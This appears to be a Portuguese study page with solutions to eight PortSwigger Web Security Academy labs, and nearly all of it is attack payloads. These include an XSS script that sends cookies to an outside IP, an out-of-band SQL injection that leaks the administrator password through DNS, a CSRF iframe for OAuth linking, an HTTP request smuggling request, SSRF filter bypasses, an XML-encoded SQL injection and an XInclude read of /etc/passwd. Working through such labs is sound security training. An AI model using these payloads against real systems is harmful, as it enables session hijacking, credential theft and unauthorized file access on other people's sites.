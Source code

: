 # Passo 2 - Labs

Nesse passo, são apenas 8 laboratórios que a PortSwigger indica. 

<br>

## Laboratórios

**Lab: Exploiting Cross-Site Scripting to Steal Cookies**
```
<script>
  window.location = 'http://10.2.75.138:4242/page?param=' + document.cookie
</script>
```

<br>
<br>

**Lab: Blind SQL injection with out-of-band data exfiltration**
```
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.OASTIFY.COM/">+%25remote%3b]>'),'/l')+FROM+dual--
```

<br>
<br>

**Lab: Forced OAuth Profile Linking**

Analise o preceso de anexar mídia social e observe que a request com o código `oauth` não possui o parâmetro `state`.
```
/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1
```

Começe um processo para linkar a social media, pegue o código `oauth` e drope a request para não utilizá-lo.

Crie um iframe para explorar isso com CSRF:
```
<iframe src="https://0abc003804e351ab8225664700de000f.web-security-academy.net/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1"></iframe>
```

<br>
<br>

**Lab: Brute-Forcing a stay-logged-in Cookie**

O cookie tem esse formato:
```
base64(username+':'+md5HashOfPassword)
```

<br>
<br>

**Lab: Exploiting HTTP Request Smuggling to Capture Other Users' Requests**
```
POST / HTTP/1.1
Host: 0ace00a9039622498275d480003400f8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=2MbInCpTxZI8yczIsHWPwJRw15stsKQU
Content-Length: 850
Content-Type: application/x-www-form-urlencoded

csrf=kYMR3K82FbSjkK1f7eazvn7xDX8yikO1&postId=3&name=foobar&email=foo%40bar.com&website=https%3A%2F%2Fbar&comment=foo
```

<br>
<br>

**Lab: SSRF with Blacklist-Based Input Filter**
```
stockApi=http://127.1/Admin

Ou

stockApi=http://127.1/%25%36%31dmin
```

<br>
<br>

**Lab: SQL Injection with Filter Bypass via XML Encoding**
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

<br>
<br>

**Lab: Discovering Vulnerabilities Quickly with Targeted Scanning**
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
